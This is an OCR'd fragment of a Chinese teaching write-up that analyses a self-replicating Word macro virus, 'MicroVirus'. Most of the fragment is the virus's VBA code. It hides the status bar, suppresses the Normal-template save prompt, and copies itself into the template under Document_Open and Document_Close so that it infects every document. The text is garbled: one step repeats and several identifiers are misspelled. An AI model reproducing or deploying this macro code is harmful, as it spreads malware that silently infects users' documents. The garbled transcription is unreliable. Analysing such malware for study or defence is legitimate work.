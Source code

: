 ```visual basic
MsgBox "MicroVirus by Content Security Lab"

End Sub
```



### 病毒分析

2.4该代码的基本执行流程如下：
1）进行必要的自我保护。高明的病毒编写者其自我保护将做得非常好，可以使word的一些工具栏失效，例如将工具菜单中的宏选项屏蔽，也可以修改注册表达到很好的隐藏效果。本例中只是屏蔽状态栏，以免显示宏的运行状态，并且修改公用模板时自动保存，不给用户提示。

```visual basic
Application.DisplayStatusBar=False Options.SaveNormalPrompt=False
```

2）得到当前文档的代码对象和公用模板的代码对象。

2）得到当前文档的代码对象和公用模板的代码对象。

```visual basic
Ourcode=ThisDocument.VBProject.VBComponents（1）.CodeModule.Lines（1，100）

Set Host=NormalTemplate.VBPro ject.VBComponents（1）.CodeModule

If ThisDocument =NormalTemplate Then

Set Host=ActiveDocument.VBProject.VBComponents（1）.CodeModule

End If
```

3）检查模板是否已经感染病毒，如果没有，则复制宏病毒代码到模板，并且修改函数名。

```visual basic
With Host

If.Lines（1.1）<）""Micro-Virus"Then

.Deletelines 1，.CountOfLines

.InsertLines 1，Ourcode

.ReplaceLine 2，"Sub Document_Close（）"

If ThisDocument=nomaltemplate Then

.ReplaceLine 2，"Sub Document_open（）"

ActiveDocument.SaveAs ActiveDocument.Ful1Name

End If

End If

End With
```
